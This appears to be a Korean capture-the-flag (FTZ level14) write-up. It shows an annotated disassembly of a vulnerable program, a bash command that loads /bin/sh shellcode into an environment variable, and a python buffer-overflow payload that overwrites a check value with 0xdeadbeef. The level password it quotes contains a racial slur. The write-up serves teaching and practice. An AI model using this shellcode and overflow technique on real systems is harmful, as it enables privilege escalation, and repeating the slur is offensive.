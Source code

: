 # level 14

* id : `level14`
* pw : `what that nigga want?`

비밀번호가 ㅎㅎ... 요즘 세상이라면 논란 있을법한 비밀번호다

![](./img/2021-11-10-14-02-01.png)

`level13`과 유사하다.

```python
0x08048490 <main+0>:    push   ebp
0x08048491 <main+1>:    mov    ebp,esp
0x08048493 <main+3>:    sub    esp,0x38                         # 총 할당받는 버퍼 크기 (0x38 == 56)
0x08048496 <main+6>:    sub    esp,0x4                          # check 변수
0x08048499 <main+9>:    push   ds:0x8049664                     # fgets 인자 넣기
0x0804849f <main+15>:   push   0x2d                             # 0x2d = 45
0x080484a1 <main+17>:   lea    eax,[ebp-56]                     # buf 배열
0x080484a4 <main+20>:   push   eax
0x080484a5 <main+21>:   call   0x8048360 <fgets>
0x080484aa <main+26>:   add    esp,0x10
0x080484ad <main+29>:   cmp    DWORD PTR [ebp-16],0xdeadbeef    # [ebp-16] 주소와 deadbeef 비교
0x080484b4 <main+36>:   jne    0x80484db <main+75>
0x080484b6 <main+38>:   sub    esp,0x8
0x080484b9 <main+41>:   push   0xc17
0x080484be <main+46>:   push   0xc17
0x080484c3 <main+51>:   call   0x8048380 <setreuid>
0x080484c8 <main+56>:   add    esp,0x10
0x080484cb <main+59>:   sub    esp,0xc
0x080484ce <main+62>:   push   0x8048548
0x080484d3 <main+67>:   call   0x8048340 <system>
0x080484d8 <main+72>:   add    esp,0x10
0x080484db <main+75>:   leave
0x080484dc <main+76>:   ret
0x080484dd <main+77>:   lea    esi,[esi]
```

![](./img/2021-11-10-14-19-32.png)
잘 보면 알겠지만 crap 변수가 사라졌는데, 아마 사용하지 않는 변수여서 컴파일러에서 알아서 지운 듯 하다.

이번에도 환경변수 이용!! 기계적으로 쉘코드를 짜보자

```bash
export EGG=$(python -c 'print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80"')
env | grep EGG
```

![](./img/2021-11-10-14-20-55.png)


쉘코드 저장된 환경변수 주소가 `0xbffffca0` 인것 확인, 마찬가지로 검사하는 변수에 정상적인 값을 씌워주자.

```bash
(python -c 'print "A"*(40) + "\xEF\xBE\xAD\xDE" + "A"*4 + "\xBF\xFF\xFC\xA0"';cat) | ./attackme
```

![](./img/2021-11-10-14-24-21.png)

GG!

